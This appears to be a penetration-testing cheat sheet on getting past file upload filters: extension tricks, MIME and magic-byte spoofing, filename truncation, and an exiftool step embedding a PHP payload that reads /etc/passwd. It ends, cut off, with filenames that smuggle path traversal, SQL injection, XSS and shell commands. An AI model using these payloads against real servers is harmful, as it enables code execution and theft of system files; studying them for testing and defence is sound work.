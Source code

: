 # File upload

## Intercept with proxy (double extension)
In case a file is uploaded with **double extensions** follow the steps below:

1. Make the web request
2. Intercept traffic with proxy
3. Remove the extension that indicates that the file is an image. `.png` `.jpg`
4. Forward the request
5. Open the uploaded file


## File extension types
Developers might blacklist some extension. However, this can be bypassed by using alternative extensions.

| Type       | Extension                                  |
|------------|--------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |


### Letter casing
One should also consider changing the casing of the letters.
```
.pHp
.PHP
.Php
```

### Double extensions and junk data
Adding a decoy extension before the real one
```
file.png.php
```
Adding (junk) meaningless data in front of the extension
```
file.#.png
file.phpjunkDatapng
file.php%0a.png
```


### Special characters
```
file.php/
file.php....
file.
file.php%20
```


## Breaking filename length
1. Try what the maximum length accepted for the file name is, by  adding a bunch of A's to the file name with the extension at the end.   *(linux maximum is 255 bytes)*
2. Upload the file and see how many characters it allows.
3. Add a valid and a `.php` extension to the file. Make it so that the valid extension gets cut off and the `.php` extension remains.

### Example
1. Assume max file length is 255
2. 251 A's and .php extension add up to 255
3. AAA< SNIP 251 >AAA.php.png
This way, the `.png` gets cut off and leaves the `.php`


## MIME type
Even `MIME` types can be blacklisted by developers.		
By interception the traffic one can simply change it, to appeal to the server.				

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```


## Magic bytes
If an application uses the file's magic bytes to determine the `Content-Type` one can easily bypass it with changing the files magic bytes.

**Table of magic bytes**
| Type | Bytes                            |
|------|----------------------------------|
| GIF  | GIF89a;\x0a                      |
| JPG  | \xFF\xD8\xFF\xDB                 |
| PNG  | \x89\x50\x4E\x47\x0D\x0A\x1A\x0A |
| TAR  | \x75\x73\x74\x61\x72\x00\x30\x30 |

1. Open the file in `hexeditor`:
	```bash
	hexeditor <file>
	```
2.  Edit the first few bytes so that it fits the file type of your choice.
	```
	# In hexeditor (original)
	00 00 00 00

	# In hexeditor (changed to JPG)
	FF D8 FF DB
	```


## PHP getimagesize()
If a file's size gets validated with the `getimagesize()` function, it is possible to add payload into the image's metadata with `exiftool`.
1. Add payload
	```bash
	exiftool -Comment='<?php system("cat /etc/passwd") ?>' <jpg_file>
	```
2. Change file type
	```
	mv file.jpg	file.php.jpg
	```
3. Upload to server (proxy intercept)



## From File upload to other vulnerabilities
- Set **filename** to `../../../dev/shm/file.jpg` for **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` for **SQL injection**
- Set **filename** to `<svg onload=alert(document.comain)>` for **XSS**
- Set **filename** to `; sleep 10;` for **command injection**
- Set **filename** to